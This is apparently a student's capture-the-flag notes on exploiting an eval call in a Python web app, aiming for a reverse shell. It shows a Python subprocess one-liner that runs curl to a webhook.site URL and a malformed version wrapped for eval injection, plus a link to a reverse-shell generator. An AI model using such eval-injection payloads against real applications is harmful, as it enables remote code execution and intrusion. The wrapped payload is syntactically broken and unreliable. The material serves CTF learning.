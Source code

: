 ## dependencies
- jinja2
- its dangerous
## ..
- in app.py there is no where a mention of reading the flag
- ssti is also very less likely
- but there is a clear eval funciton
## compile and exec working
https://www.w3schools.com/python/ref_func_compile.asp
```
a=compile("print('radha likes chapath')",'filename','exec')
>>> a
<code object <module> at 0x7fda15b47590, file "filename", line 1>
>>> exec(a)
radha likes chapath
>>>
```
- first would need to run id command
- first eval will be done then exec
- so just in eval we can get rev shell
## eval
![image](https://github.com/m0wn1ka/ctf/assets/127676379/f89df957-4e6c-426f-86d6-e35cfaf62b5e)

- https://www.revshells.com/
```
python3 -c "import subprocess;subprocess.run(['curl https://webhook.site/db31d100-9c30-462b-bc60-0f3c967b42f0'], shell=True, capture_output=True, text=True)"
- running this in local terminal does send a req to webhook
```
### as it would go throug eval need to make it compatible with eval
```
python3 -c "eval(exec(import subprocess;subprocess.run(['curl https://webhook.site/db31d100-9c30-462b-bc60-0f3c967b42f0'], shell=True, capture_output=True, text=True))"
```

